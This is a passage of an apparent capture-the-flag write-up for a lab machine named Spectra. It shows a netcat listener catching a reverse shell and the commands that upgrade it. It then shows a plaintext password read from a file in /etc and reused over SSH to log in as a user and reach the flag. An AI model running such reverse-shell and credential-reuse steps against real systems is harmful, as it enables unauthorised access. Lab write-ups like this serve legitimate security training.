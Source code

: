 [![burp_revshell.png](/img/spectra/burp_revshell.png)](/img/spectra/burp_revshell.png)

We get almost an instant callback from the target, upgrade our shell and fix the terminal size.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.93.40.
Ncat: Connection from 10.129.93.40:37564.
<ginx/html/main/wp-content/themes/twentyseventeen $ python -c 'import pty;pty.spawn("/bin/bash")'
<themes/twentyseventeen $ python -c 'import pty;pty.spawn("/bin/bash")'      
<ginx/html/main/wp-content/themes/twentyseventeen $ export TERM=xterm
export TERM=xterm
 $ ^Z@spectra /usr/local/share/nginx/html/main/wp-content/themes/twentyseventeen 
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

 $ stty rows 55 cols 236/share/nginx/html/main/wp-content/themes/twentyseventeen 
nginx@spectra /usr/local/share/nginx/html/main/wp-content/themes/twentyseventeen $ 
```

Looking around there is a strange non default folder with an unusual file in `/etc`. Reading it, it seems to be a password and we only have 2 other users root included.

```
nginx@spectra /usr/local/share/nginx/html/main/wp-content/themes/twentyseventeen $ cat /etc/autologin/passwd 
SummerHereWeCome!!
```

Trying the password for katie over ssh we are successfull and can grab the user flag. 

```
$ ssh katie@spectra.htb
The authenticity of host 'spectra.htb (10.129.93.40)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'spectra.htb,10.129.93.40' (RSA) to the list of known hosts.
Password: 
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ wc -c user.txt 
33 user.txt
katie@spectra ~ $
```
